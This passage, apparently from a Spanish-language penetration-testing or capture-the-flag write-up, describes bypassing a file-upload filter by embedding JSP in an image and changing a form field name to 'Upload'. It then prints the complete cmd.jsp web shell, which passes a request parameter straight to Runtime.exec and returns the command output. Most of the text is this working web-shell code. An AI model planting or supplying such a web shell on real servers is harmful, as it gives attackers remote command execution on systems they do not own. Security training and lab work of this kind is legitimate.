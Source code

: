 <figure><img src="../../.gitbook/assets/Captura de pantalla 2025-10-03 113519.png" alt=""><figcaption></figcaption></figure>

Lo que hice fue eliminar la mitad del contenido de la imagen y añadir este contenido en `JSP` para ejecutar comandos a nivel del sistema, tambien super importante en el primer `upload` lo cambiamos por `Upload` con la `U` mayuscula (`name="Upload"`):

```jsp
<%@ page import="java.util.*,java.io.*"%>
<%
    //
    // JSP_KIT
    //
    // cmd.jsp = Command Execution (unix)
    //
    // by: Unknown
    // modified: 27/06/2003
    //
%>
<HTML><BODY>
<FORM METHOD="GET" NAME="myform" ACTION="">
<INPUT TYPE="text" NAME="cmd">
<INPUT TYPE="submit" VALUE="Send">
</FORM>
<pre>
<%
    if (request.getParameter("cmd") != null) {
        out.println("Command: " + request.getParameter("cmd") + "<BR>");
        Process p = Runtime.getRuntime().exec(request.getParameter("cmd"));
        OutputStream os = p.getOutputStream();
        InputStream in = p.getInputStream();
        DataInputStream dis = new DataInputStream(in);
        String disr = dis.readLine();
        while (disr != null) {
            out.println(disr);
            disr = dis.readLine();
        }
    }
%>
</pre>
</BODY></HTML>
```
